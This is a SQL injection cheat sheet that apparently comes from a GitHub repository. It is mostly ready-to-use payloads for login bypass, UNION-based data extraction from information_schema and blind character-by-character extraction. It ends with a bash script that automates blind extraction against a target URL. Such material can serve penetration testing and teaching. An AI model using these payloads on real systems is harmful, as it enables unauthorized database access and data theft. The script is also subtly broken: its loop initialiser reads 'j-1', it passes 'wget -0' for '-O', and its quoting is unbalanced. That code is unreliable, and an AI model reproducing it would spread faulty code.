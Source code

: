 # SQL Injection

## Basic

```bash
' or 1=1-- -
' or '1'='1
test' and 'a'='a
test' and 'a'='ab
```

## UNION

Find the number of fields with visible changes  

```bash
' union select null-- -
# increase the number of nulls until no error is provided
' union select null,null,null,null,null,null-- -
# sometimes a specific field requires an int or a string, you may need to play with that
```

Find the number of columns with no visible changes  

```bash
' order by 1-- -
# increase this number until either an error or some other change occurs
```

Extract data  

```bash
' union select table_name, column_name, null,null,null from information_schema.columns-- -
```


## Blind Injections

Use TRUE and FALSE conditions  

If only an ID of 1 exists:  

```bash
1' and 'a'='a   # TRUE
1' and 'a'='b   # FALSE
```

Extract information 1 character at a time

```bash
1' and substring(@@version,1,1)='1    # FALSE
# increment the last number until the true condition appears
1' and substring(@@version,1,1)='5    # TRUE
```

When you hit a true statement, increment the position argument of the substring funtion  

```bash
1' and substring(@@version,2,1)='1    # FALSE
# Increment the last number until the true condition appears
```

This bash script can help with automation. Otherwise, use sqlmap  

```bash
#!/bin/bash

charset=`echo {0..9} {A..z} \. \: \, \; \- \_ \@`

export URL=""
export truestring=""
export maxlength=$1
export query=$2

export result=""

echo "Extracting the results for $query..."

for ((j-1;j<$maxlength;j+=1))
do
  export nthchar=$j
  
  for i in $charset
  do
    wget "$URL?id=1' and substring(($query),$nthchar,1)='$i' -q -0 - | grep "$truestring" &> /dev/null
    if [ "$?" == "0" ]
    then
      echo Character number $nthchar found: $i
      export result+=$i
      break
    fi
  done
done

echo Result: $result
```
